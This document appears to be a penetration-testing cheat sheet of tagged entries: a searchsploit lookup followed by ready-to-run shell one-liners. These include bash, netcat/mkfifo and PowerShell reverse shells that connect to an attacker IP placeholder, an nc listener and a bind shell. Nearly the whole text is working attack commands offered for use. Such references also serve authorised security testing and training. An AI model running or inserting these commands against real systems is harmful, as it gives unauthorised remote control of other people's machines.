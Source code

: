 ## Public exploits - find public exploits searchsploit - Getting started
#plateform/linux #target/remote #port/ #protocol/ #cat/ATTACK/
```
searchsploit <technology-version>
```

## Shells - revshell command linux (bash) - Getting started
#plateform/linux #target/remote #port/ #protocol/ #cat/ATTACK/
```
bash -c 'bash -i >& /dev/tcp/<attackerIP>/<port> 0>&1'
```

## Shells - revshell command linux (bash 2) - Getting started
#plateform/linux #target/remote #port/ #protocol/ #cat/ATTACK/
```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc <attackerIP> <port> >/tmp/f
```

## Shells - revshell command linux (windows powershell) - Getting started
#plateform/linux #target/remote #port/ #protocol/ #cat/ATTACK/
```
powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('<attackerIP>',<port>);$s = $client.GetStream();[byte[]]$b = 0..65535|%{0};while(($i = $s.Read($b, 0, $b.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($b,0, $i);$sb = (iex $data 2>&1 | Out-String );$sb2 = $sb + 'PS ' + (pwd).Path + '> ';$sbt = ([text.encoding]::ASCII).GetBytes($sb2);$s.Write($sbt,0,$sbt.Length);$s.Flush()};$client.Close()"
```

## Shells - revshell web revshells.com - Getting started
#plateform/linux #target/remote #port/ #protocol/ #cat/ATTACK/
```
firefox https://www.revshells.com/
```

## Shells - nc listener for revshell - Getting started
#plateform/linux #target/remote #port/ #protocol/ #cat/ATTACK/
```
nc -lvnp <port>
```


## Shells - bind shell linux (bash) 0.0.0.0 - Getting started
#plateform/linux #target/remote #port/ #protocol/ #cat/ATTACK/
```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc -lvp <port> >/tmp/f
```
